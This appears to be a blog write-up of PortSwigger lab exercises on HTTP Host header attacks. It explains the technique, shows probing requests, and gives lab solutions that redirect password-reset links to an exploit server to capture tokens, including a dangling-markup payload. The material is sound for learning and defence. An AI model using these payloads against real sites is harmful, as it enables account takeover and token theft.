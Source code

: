 ```yaml
---
title: PortSwigger - Host Header Attacks
date: '2024-04-04'
tags: ['PortSwigger', 'PortSwigger Labs', 'Web Security']
draft: false
summary: 
---
```


## Host Header Attacks
The `Host` header in HTTP is mandatory since `HTTP/1.1`.  It specifies the domain name the client wants to access. Now a days its common for multiple websites to be accessible via same IP address.

There are two scenarios :
Virtual Hosting : Multiple Websites hosted on a single IP address
Routing : Multiple websites being load balanced via a single reverse proxy

In both the above cases host header is an important component to determine where the request should be sent. Many websites don't know what domain they are deployed on. They usually get the help from server `_SERVER['HOST']`  to retrieve domain name. As Host header is attacker controllable , this can lead to many vulnerabilities if not properly escaped or sanitized.

We can use following techniques to check for this vulnerability :
- Supply an arbitrary Host header
- Check for flawed validation
```http
GET /example HTTP/1.1 
Host: vulnerable-website.com:bad-stuff-here
```
- Send ambiguous requests
- Inject duplicate host headers
```http
GET /example HTTP/1.1 
Host: vulnerable-website.com 
Host: bad-stuff-here
```
- Supply an absolute URL
```http
GET https://vulnerable-website.com/ HTTP/1.1 
Host: bad-stuff-here
```
- Add line wrapping
```http
GET /example HTTP/1.1 
	Host: bad-stuff-here 
Host: vulnerable-website.com
```
- Inject Host override headers
```http
GET /example HTTP/1.1 
Host: vulnerable-website.com 
X-Forwarded-Host: bad-stuff-here
```

Some other headers we can use :
- `X-Host`
- `X-Forwarded-Server`
- `X-HTTP-Host-Override`
- `Forwarded`


##### Password reset poisoning
If the password reset url is dynamically generated via user controllable input such as Host header it may be possible to get a poisoned link

###### lab : Basic password reset poisoning
```http

// [https://0a11000b0368653481ef11260005004d.web-security-academy.net/forgot-password?temp-forgot-password-token=157e68e7ajplv4x9vqnal6mqmbresc63](https://0a11000b0368653481ef11260005004d.web-security-academy.net/forgot-password?temp-forgot-password-token=157e68e7ajplv4x9vqnal6mqmbresc63)


// Host header is changed to the exploit server to get token 
Host: exploit-0a89002f03c065a5816b10c5014000ba.exploit-server.net

// This leads to a token leakage , we replace the token in the above url to change the password of the victim
```

###### lab : Password reset poisoning via middleware
```http
// using X-Forwarded-Host to point to attack server to get token 
X-Forwarded-Host: exploit-0a5c002103f7509381cf0299018f0045.exploit-server.net
```

###### lab : Password reset poisoning via dangling markup
```http
Host: 0aa300e1045c624780ddb26a00e30026.web-security-academy.net:'<a href="//exploit-0ae2002404e662c680b5b19f010400d5.exploit-server.net/?
```

##### Web cache poisoning via Host header

